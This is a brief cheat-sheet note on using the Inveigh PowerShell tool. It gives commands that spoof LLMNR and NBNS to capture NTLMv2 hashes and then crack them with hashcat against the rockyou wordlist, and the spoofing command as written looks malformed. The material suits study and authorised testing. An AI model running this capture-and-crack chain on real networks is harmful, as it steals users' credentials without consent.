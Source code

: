 # Inveigh

* Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

### Using Inveigh

```powershell-session
Import-Module .\Inveigh.ps1
```

```powershell-session
(Get-Command Invoke-Inveigh).Parameters
```

#### LLMNR and NBNS spoofing

* Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.

```powershell-session
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

```
cat Inveigh-NTLMv2.txt |clip
```

* copy hashes to [Hashcat](app://obsidian.md/Hashcat)and break

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
```

## Reference

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* [https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1](https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1)
